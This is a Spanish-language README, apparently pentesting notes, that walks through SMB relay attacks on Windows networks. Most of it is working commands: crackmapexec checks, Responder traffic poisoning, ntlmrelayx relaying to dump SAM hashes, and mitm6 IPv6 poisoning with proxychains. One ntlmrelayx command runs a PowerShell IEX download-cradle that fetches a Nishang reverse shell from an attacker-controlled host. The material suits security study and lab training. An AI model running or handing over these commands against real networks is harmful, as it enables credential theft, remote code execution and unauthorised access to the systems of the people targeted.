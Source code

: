# Qué es un SMB Relay?

- En vez de crackear hashes obtenidos con el Repsonder, podemos pasar esos hashes a alguna máquina específica para ganar acceso.
- Es necesario que el SMB no esté firmado para que no se de validado la legitimdad del origen.
- Las credenciales que se le pasen a un equipo deben ser de un Administrador del mismo.

# Explicación gráfica del vector de ataque

[Ver la imagen](Images/main/README.md)

# Como ver si el smb está fimado

```
crackmapexec smb <target>
```

[Ver Ejemplo](Images/firma/README.md)


# Comprobar si tus credenciales son privilegiadas sobre un equipo

```
crackmapexec smb <target> -u 'USUARIO' -p 'CONTRASEÑA'
```
[Ver Ejemplo](Images/creds/README.md)


# Configurar Responder para SMB Relay
HTTP y SMB deben estar en Off en la configuración del Responder

```
sudo nano /usr/share/responder/Responder.conf
```
<img src="https://i.imgur.com/XypgqGB.png" />

# Efectuar un SMB Relay por IPv4
El Responder debe estar activo envenenando el tráfico de la red,
```
python /usr/share/responder.py -I tun0 -rdw
```
```
ntlmrelayx.py -tf <targets.txt> -smb2support
```
[Ver Ejemplo de dumpeo de SAM](Images/sam/README.md)

# Ejecutar comandos mediante un SMB Relay por IPv4
```
ntlmrelayx.py -tf <targets.txt> -smb2support -c "powershell IEX(New-Object Net.WebClient).downloadString('http://192.168.0.0:8000/PS.ps1')"
```
[Descargar shell de Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

# Ejecutar comandos mediante un SMB Relay por IPv6
Primero envenenamos el dominio con `mitm6` para luego entrar en una sesión interactiva con `ntlmrelayx` y mediante el comando `socks` podremos ver las conexiones y el `AdminStatus` de los usuarios. En el caso de obtener un usuario con `AdminStatus True` podremos  añadir en la sección `[ProxyList]` de proxychains `socks4 127.0.0.1 1080`
y luego ejecutar el comando `proxychains cme smb <ip_victima> -u 'usuario' -d 'NombreDelDominio' -p 'daigual'` y ganaremos acceso al sistema sin saber la contraseña.
```
mitm6 -d <dominio>
```
```
ntlmrelayx.py -6 -wh <ip_atacante> -t smb://<ip_victima> -socks -debug -smb2support
```


